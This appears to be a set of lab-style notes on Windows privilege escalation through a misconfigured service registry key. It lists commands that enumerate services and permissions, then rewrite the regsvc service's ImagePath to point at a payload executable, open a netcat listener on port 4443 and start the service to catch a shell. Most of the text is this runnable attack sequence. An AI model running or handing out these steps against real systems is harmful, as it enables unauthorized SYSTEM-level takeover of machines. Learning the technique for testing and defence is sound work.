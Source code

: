 (checklist)

- port scan
- version scan
- service scan

COMMANDS:
Enumeration:Open a command prompt and run the WMICcommand below to list the services in the local machine:
wmic service get name | findstr /i /v "C:\Windows\\""

Let us look for interesting service like “registry” or “regsvc”. Ex. RemoteRegistry

To check what groups this user belongs. all the output is the group of this user
whoami /groups
This useris a member of BUILTIN\Usersand NT AUTHORITY\INTERACTIVEgroups.

Run the command below to check for our permission in the services keys.
C:\Users\user\Desktop\Tools\accesschk64.exe "INTERACTIVE" -kvuqsw hklm\System\CurrentControlSet\services
It seems that we have full access to the regsvcservice. 
RW HKLM\System\CurrentControlSet\services\regsvc
        KEY_ALL_ACCESS

Run SubInACL

C:\Users\user\Desktop\Tools\subinacl.exe /keyreg "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services\regsvc" /display

Run Powershell

Confirm if INTERACTIVE really has full-access:
Get-Acl -Path hklm:\System\CurrentControlSet\services\regsvc | fl

Check if we can restart the service:
C:\Users\user\Desktop\Tools\accesschk64.exe /accepteula -ucqv user regsvc

Query the service's registry path to our payload:
reg query hklm\System\CurrentControlSet\services\regsvc

Modify the image path:
reg add "HKLM\SYSTEM\CurrentControlSet\Services\regsvc" /t REG_EXPAND_SZ /v ImagePath /d "C:\Users\user\Downloads\usp_payload.exe" /f

sc qc regsvc

sc query regsvc

nc -nlvp 4443

sc start regsvc

go back to listening terminal